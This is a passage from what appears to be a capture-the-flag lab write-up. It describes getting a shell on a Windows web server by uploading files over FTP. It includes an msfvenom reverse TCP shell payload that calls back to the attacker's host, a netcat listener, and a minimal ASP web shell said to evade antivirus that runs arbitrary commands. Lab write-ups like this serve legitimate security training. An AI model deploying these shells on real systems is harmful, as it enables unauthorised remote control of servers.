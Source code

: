 That is the file that was uploaded over FTP. Use it to get an ASP reverse shell:

```bash
# generate payload
msfvenom -p windows/shell_reverse_tcp \
         LHOST=10.10.14.27 \
         LPORT=6969 \
         -a x86 \
         -f aspx-exe \
         -o bubba.aspx
# start listener
nc -nvlp 6969
# upload payload
ftp 10.10.10.116
```

However, this hangs after trying to run `put bubba.aspx `? Maybe this is AV preventing the file from being uploaded? Trying another ASPX webshell from `/usr/share/webshells/aspx/` does not work ... Try ASP? Here is a barebones ASP shell that _should_ get around AV:

```asp
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec(Request.Querystring("c"))
o = cmd.StdOut.Readall()
Response.write(o)
%>
```

Saving the above code to `bubba.asp` and uploading it over FTP works! Test it as follows:

```bash
curl -s -G --data-urlencode 'c=whoami' http://10.10.10.116/upload/bubba.asp
```
